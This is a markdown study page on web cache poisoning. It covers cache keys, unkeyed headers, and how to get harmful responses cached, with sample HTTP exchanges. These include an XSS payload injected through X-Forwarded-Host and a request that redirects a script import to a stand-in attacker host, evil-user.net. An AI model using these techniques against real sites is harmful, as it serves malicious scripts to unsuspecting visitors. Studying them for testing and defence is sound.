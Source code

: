 # Web cache poisoning

Two phases:

1. The attacker must work out how to elicit a response from the back-end server that inadvertently contains some kind of dangerous payload
2. Once successful, they need to make sure that their response is cached and subsequently served to the intended victims

<details>

<summary><strong>Cache keys</strong></summary>

When the cache gets an HTTP request, it decides whether to serve a cached response or forward the request to the origin server by generating a 'cache key.' This key is usually based on the URL path and query parameters but can also include headers and content type.

</details>

## <mark style="color:yellow;">Impact of a web cache poisoning attack</mark>

Depend on two key factors:

1. What exactly the attacker can successfully get cached
2. The amount of traffic on the affected page (visitors)

{% hint style="info" %}
**Note**: that the duration of a cache entry doesn't always impact web cache poisoning, as attacks can be scripted to re-poison the cache indefinitely.
{% endhint %}

## <mark style="color:yellow;">Constructing a web cache poisoning attack</mark>

1. Identify and evaluate unkeyed inputs
2. Elicit a harmful response from the back-end server
3. Get the response cached

### <mark style="color:yellow;">Identify and evaluate unkeyed inputs</mark>

Adding random inputs to requests and observing their effect on the response, whether it's directly reflected or triggers a different response.

{% hint style="info" %}
**Tip**: use Param Miner extension (Guess headers)
{% endhint %}

### <mark style="color:yellow;">Elicit a harmful response from the back-end server</mark>

Evaluate exactly how the website processes it. E.g. see if the input is reflected in the response from the server without being properly sanitized.

### <mark style="color:yellow;">Get the response cached</mark>

A cached response may depend on all kinds of factors, such as the file extension, content type, route, status code, and response headers

## <mark style="color:yellow;">Exploiting cache design flaws</mark>

### <mark style="color:yellow;">Web cache poisoning to deliver XSS</mark>

Simplest web cache poisoning vulnerability to exploit is when unkeyed input is reflected in a cacheable response without proper sanitization

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

* `X-Forwarded-Host` is being used to dynamically generate an Open Graph image URL
* `X-Forwarded-Host` is unkeyed
* Exploit: `X-Forwarded-Host: a."><script>alert(1)</script>"`
* If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload

### <mark style="color:yellow;">Web cache poisoning to exploit unsafe handling of resource imports</mark> <a href="#using-web-cache-poisoning-to-exploit-unsafe-handling-of-resource-imports" id="using-web-cache-poisoning-to-exploit-unsafe-handling-of-resource-imports"></a>

Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files.

```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

### <mark style="color:yellow;">Web cache poisoning to exploit cookie-handling vulns</mark>

```http
GET /blog/post.php?mobile=1 HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
Cookie: language=pl;
Connection: close
```

* Premise (as always): `Cookie` header is unkeyed
* If the response to this request is cached, then all subsequent users who tried to access this blog post would receive the Polish

{% hint style="info" %}
**Note**: It is rare. Cookie-based cache poisoning vulnerabilities are usually quickly identified and resolved because legitimate users often accidentally poison the cache.
{% endhint %}

### <mark style="color:yellow;">Using multiple headers to exploit web cache poisoning vulnerabilities</mark>

```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```

### <mark style="color:yellow;">Exploiting responses that expose too much information</mark>

#### Cache-control directives

A challenge in web cache poisoning is ensuring the harmful response gets cached, often requiring manual trial and error. However, sometimes responses reveal information that helps the attacker successfully poison the cache.

```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```

#### Vary header

* The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed
  * For example, it is commonly used to specify that the `User-Agent` header is keyed
    * If the mobile version of a website is cached, this won't be served to non-mobile users by mistake.
* An attacker can also:
  * Attack only users with that user agent are affected
  * Work out which user agent was most commonly used to access the site (attack to affect the maximum number of users)

## <mark style="color:yellow;">Exploiting cache implementation flaws</mark>

TO DO
